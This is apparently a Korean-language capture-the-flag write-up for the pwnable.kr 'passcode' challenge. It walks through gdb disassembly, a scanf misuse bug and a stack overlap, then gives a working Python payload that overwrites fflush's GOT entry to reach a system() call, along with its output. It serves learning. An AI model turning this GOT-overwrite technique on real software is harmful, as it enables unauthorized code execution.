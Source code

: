* gdb로 disas 해보면 대략 이렇게 생겨먹었다
~~~
(gdb) disas main
Dump of assembler code for function main:
   0x08048665 <+0>:     push   %ebp
   0x08048666 <+1>:     mov    %esp,%ebp
   0x08048668 <+3>:     and    $0xfffffff0,%esp
   0x0804866b <+6>:     sub    $0x10,%esp
   0x0804866e <+9>:     movl   $0x80487f0,(%esp)
   0x08048675 <+16>:    call   0x8048450 <puts@plt>
   0x0804867a <+21>:    call   0x8048609 <welcome>
   0x0804867f <+26>:    call   0x8048564 <login>
   0x08048684 <+31>:    movl   $0x8048818,(%esp)
   0x0804868b <+38>:    call   0x8048450 <puts@plt>
   0x08048690 <+43>:    mov    $0x0,%eax
   0x08048695 <+48>:    leave
   0x08048696 <+49>:    ret

(gdb) disas welcome
Dump of assembler code for function welcome:
   0x08048609 <+0>:     push   %ebp
   0x0804860a <+1>:     mov    %esp,%ebp
   0x0804860c <+3>:     sub    $0x88,%esp
   0x08048612 <+9>:     mov    %gs:0x14,%eax
   0x08048618 <+15>:    mov    %eax,-0xc(%ebp)
   0x0804861b <+18>:    xor    %eax,%eax
   0x0804861d <+20>:    mov    $0x80487cb,%eax
   0x08048622 <+25>:    mov    %eax,(%esp)
   0x08048625 <+28>:    call   0x8048420 <printf@plt>
   0x0804862a <+33>:    mov    $0x80487dd,%eax
   0x0804862f <+38>:    lea    -0x70(%ebp),%edx
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:    mov    $0x80487e3,%eax
   0x08048643 <+58>:    lea    -0x70(%ebp),%edx
   0x08048646 <+61>:    mov    %edx,0x4(%esp)
   0x0804864a <+65>:    mov    %eax,(%esp)
   0x0804864d <+68>:    call   0x8048420 <printf@plt>
   0x08048652 <+73>:    mov    -0xc(%ebp),%eax
   0x08048655 <+76>:    xor    %gs:0x14,%eax
   0x0804865c <+83>:    je     0x8048663 <welcome+90>
   0x0804865e <+85>:    call   0x8048440 <__stack_chk_fail@plt>
   0x08048663 <+90>:    leave
   0x08048664 <+91>:    ret

(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:     push   %ebp
   0x08048565 <+1>:     mov    %esp,%ebp
   0x08048567 <+3>:     sub    $0x28,%esp
   0x0804856a <+6>:     mov    $0x8048770,%eax
   0x0804856f <+11>:    mov    %eax,(%esp)
   0x08048572 <+14>:    call   0x8048420 <printf@plt>
   0x08048577 <+19>:    mov    $0x8048783,%eax
   0x0804857c <+24>:    mov    -0x10(%ebp),%edx
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
=> 0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:    mov    0x804a02c,%eax
   0x08048590 <+44>:    mov    %eax,(%esp)
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
   0x08048598 <+52>:    mov    $0x8048786,%eax
   0x0804859d <+57>:    mov    %eax,(%esp)
   0x080485a0 <+60>:    call   0x8048420 <printf@plt>
   0x080485a5 <+65>:    mov    $0x8048783,%eax
   0x080485aa <+70>:    mov    -0xc(%ebp),%edx
   0x080485ad <+73>:    mov    %edx,0x4(%esp)
   0x080485b1 <+77>:    mov    %eax,(%esp)
   0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:    movl   $0x8048799,(%esp)
   0x080485c0 <+92>:    call   0x8048450 <puts@plt>
   0x080485c5 <+97>:    cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:   jne    0x80485f1 <login+141>
   0x080485ce <+106>:   cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:   jne    0x80485f1 <login+141>
   0x080485d7 <+115>:   movl   $0x80487a5,(%esp)
   0x080485de <+122>:   call   0x8048450 <puts@plt>
   0x080485e3 <+127>:   movl   $0x80487af,(%esp)
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   0x080485ef <+139>:   leave
   0x080485f0 <+140>:   ret
   0x080485f1 <+141>:   movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:   call   0x8048450 <puts@plt>
   0x080485fd <+153>:   movl   $0x0,(%esp)
   0x08048604 <+160>:   call   0x8048480 <exit@plt>
~~~

* welcome에서 보면 ebp-0x70 ~ ebp-0xc 를 user input으로 받는다
~~~
   0x0804862a <+33>:    mov    $0x80487dd,%eax
   0x0804862f <+38>:    lea    -0x70(%ebp),%edx
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
~~~

* passcode.c를 보면 scanf를 쓰는데 passcode1이 주소가 아니라 그냥 값이 들어감
~~~
void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);
~~~

* 저 passcode1에 해당하는 곳은 ebp-0x10임 
~~~
   0x08048577 <+19>:    mov    $0x8048783,%eax
   0x0804857c <+24>:    mov    -0x10(%ebp),%edx
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
=> 0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
~~~

* welcome과 login은 ebp가 같다. 그리고 welcome은 ebp-0x70 ~ ebp-0xc를 쓴다. 다시 말해 100자를 다 주면 마지막 4자는 ebp-0x10 ~ ebp-0xc를 덮어쓸 것이고 다시 말해 임의의 주소의 값을 내가 바꿀수 있다

* 그럼 뭘 바꾸지? scanf 이후에 보면 이런게 있다
~~~
   0x0804858b <+39>:    mov    0x804a02c,%eax
   0x08048590 <+44>:    mov    %eax,(%esp)
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
~~~

* call은 결국 push eip, jmp address 이다. 근데 address에 해당하는 0x8048430을 보면

~~~
(gdb) disas /r 0x8048430,+0x10
Dump of assembler code from 0x8048430 to 0x8048440:
   0x08048430 <fflush@plt+0>:   ff 25 04 a0 04 08       jmp    *0x804a004
   0x08048436 <fflush@plt+6>:   68 08 00 00 00  push   $0x8
   0x0804843b <fflush@plt+11>:  e9 d0 ff ff ff  jmp    0x8048410
~~~

이렇게 생겼음. 즉 0x8048432를 조작하면 우리가 원하는 곳으로 jump할 수 있다. 

* 우리가 jump 하고 싶은 곳은 여기일 것이다
~~~
   0x080485e3 <+127>:   movl   $0x80487af,(%esp)
   0x080485ea <+134>:   call   0x8048460 <system@plt>
~~~

즉 96자 아무거나 + \x32\x84\x04\x08 한 다음에 scanf로 0x80485e3 = 134,514,147 하면 될 것 같다
~~~
python -c "print 'a'*96+'\x32\x84\x04\x08';print '134514147'" | ./passcode
~~~

...라고 생각했으나 잘못된 생각이었다.
instruction이 있는 곳은 read + execute라서 write가 안된다. 그래서 segmentation fault가 뜸

다시 한번 보면 jmp \*0x804a004 는 다시 말해 0x804a004를 dereference해서 jump한다는 거니까 이건 바꿀수 있을것 같다

~~~
passcode@pwnable:~$ python -c "print 'a'*96+'\x04\xa0\x04\x08';print '134514147'" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
~~~

푼것에 대해 좀 더 알아보자

~~~
passcode@pwnable:~$ file passcode
passcode: setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=d2b7bd64f70e46b1b0eb7036b35b24a651c3666b, not stripped
~~~

* passcode는 dynamically linked 되어 있다
* dynamic link 방식으로 프로그램이 만들어지면 함수를 호출할때 PLT (Procedure Linkage Table) 를 참조한다. 아마 아래 부분일거다
~~~
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
~~~
* PLT에서는 GOT로 점프한다. 그게 아래일 것이다
~~~
(gdb) disas /r 0x8048430,+0x10
Dump of assembler code from 0x8048430 to 0x8048440:
   0x08048430 <fflush@plt+0>:   ff 25 04 a0 04 08       jmp    *0x804a004
   0x08048436 <fflush@plt+6>:   68 08 00 00 00  push   $0x8
   0x0804843b <fflush@plt+11>:  e9 d0 ff ff ff  jmp    0x8048410
~~~
* 내가 푼 방법은 GOT로 점프하는 부분의 주소를 바꿔치기 한것이다
* 실제라면 GOT로 점파 한 후 dl_resolve를 통해 실제 함수 주소를 가져오고, GOT에 그 주소를 써준 후 해당 함수를 호출하는 식으로 된다고 한다
